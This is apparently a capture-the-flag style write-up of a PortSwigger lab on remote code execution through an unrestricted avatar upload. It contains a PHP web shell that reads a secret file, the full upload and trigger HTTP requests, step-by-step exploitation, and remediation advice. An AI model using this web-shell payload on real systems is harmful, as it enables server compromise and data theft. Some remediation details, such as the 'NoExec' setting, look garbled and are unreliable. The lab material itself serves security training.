






# Lab: Remote code execution via web shell upload
**Topic:** File Upload Vulnerabilities  
**Difficulty:** Apprentice  
**Link:** [https://portswigger.net](https://portswigger.net)

##  Objective
Exfiltrate the contents of the secret file located at `/home/carlos/secret` by exploiting an unrestricted file upload mechanism to drop a server-side PHP web shell, then submit the secret token to solve the challenge.

##  Enumeration & Analysis
* **Upload Entry Point:** Navigating to the `My Account` page exposes an avatar selection feature that accepts image files via a `POST` multipart/form-data interface target to `/my-account/avatar`.
* **Missing Input Validation:** The underlying backend code performs no validation checks on uploaded files before storing them in the server's filesystem directory at `/files/avatars/`.
* **Exploitation Strategy:** Because the server treats the directory as executable, uploading a text file with a `.php` file extension containing web hooks allows us to interact directly with the server-side processor runtime environment.

---

##  Traffic Capture Logs

###  Arbitrary File Upload Request
This request intercepts the profile configuration form delivery, swapping out normal binary image assets with a cleartext PHP command shell hook:
```http
POST /my-account/avatar HTTP/1.1
Host: 0a0c0018046811458246486d00b60080.web-security-academy.net
Cookie: session=vsilChmdMbS5RCAKLjkkKyJUDE2j9FrF
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQBSONTX7XS7C6NAb
Content-Length: 384008

------WebKitFormBoundaryQBSONTX7XS7C6NAb
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryQBSONTX7XS7C6NAb--
```

###  Code Execution Retrieval Trigger
Issuing a direct `GET` request directly to our newly uploaded payload file triggers server execution, printing the flag token string inside the payload response framework:
```http
GET /files/avatars/exploit.php HTTP/1.1
Host: 0a0c0018046811458246486d00b60080.web-security-academy.net
Cookie: session=vsilChmdMbS5RCAKLjkkKyJUDE2j9FrF

HTTP/1.1 200 OK
Date: Sat, 17 Oct 2026 18:11:39 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 32

1JnULvEe5X7cp_RtcY874c69OqcmgLDj
```

---

##  Exploitation Step-by-Step
1. Log in to the target system using the provided credentials (`wiener:peter`) and go to the **My Account** panel.
2. Create a local file named `exploit.php` using a code editor on your system and add the following exploit script line: 
   `<?php echo file_get_contents('/home/carlos/secret'); ?>`
3. Click on the avatar **Choose File** element selection dialogue box, target your `exploit.php` file structure, and click **Upload**.
4. Monitor the execution stream in the Burp Proxy history panel. Note that the application yields a standard profile redirect code message without checking or blocking the code extension string.
5. Manually query the file delivery location inside your browser URL search input field or map it directly in a Burp Repeater window tab frame:
   `https://web-security-academy.net`
6. Execute the request. The backend code runs your file dynamically and exposes the target configuration flag: `1JnULvEe5X7cp_RtcY874c69OqcmgLDj`.
7. Submit the recovered text token inside the target header interface frame to successfully clear the laboratory environment challenge.

---

##  Proof of Concept (PoC)

### Initial Target Challenge Layout Scope


### Unrestricted Upload Panel Exposure


### Multi-Part Binary Replacement Configuration Mapping


### Live Exploitation Payload Upload Step


### Successful Server Execution Token Extraction View


### Proxy Traffic Log History Map


---

##  Remediation
* **Enforce Strict Extension Allowlists:** Only accept a strictly verified list of safe media asset extension components (such as `.jpg`, `.jpeg`, `.png`). Reject executable extensions like `.php` entirely.
* **Isolate the Upload Storage Filesystem:** Move all file upload destination storage paths onto a completely dedicated external content storage server or an isolated sandboxed volume.
* **Disable Script Execution Contexts:** Explicitly turn off script processing execute privileges (e.g., configuring `NoExec` settings or utilizing `Options -ExecCGI` blocks inside web service access parameters) across your entire file uploads storage directory path.
